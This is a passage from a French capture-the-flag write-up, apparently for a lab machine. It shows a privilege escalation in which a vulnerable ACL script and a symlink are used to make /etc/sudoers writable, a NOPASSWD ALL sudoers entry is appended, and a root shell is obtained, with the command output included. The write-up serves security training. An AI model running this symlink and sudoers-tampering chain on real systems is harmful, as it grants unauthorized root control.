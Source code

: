 **Application des permissions ACL via le script vulnérable :**

```bash
sudo /opt/acl.sh mtz rw /home/mtz/root
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Succès :</strong> Les permissions ACL sont maintenant appliquées au fichier <code>/etc/sudoers</code> via le lien symbolique !
    </p>
</div>

**Modification du fichier sudoers :**

```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```

**Vérification de la modification :**

```bash
cat /etc/sudoers | tail -1
```

**Élévation vers root :**

```bash
sudo bash
```

### Résultat de l'exploitation

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        <strong>ROOT SHELL OBTENU !</strong> Privilèges maximum atteints.
    </p>
</div>

## 🏁 Phase 9 — Extraction des flags

### Récupération du root flag

Avec l'accès root, nous pouvons maintenant récupérer le root flag :

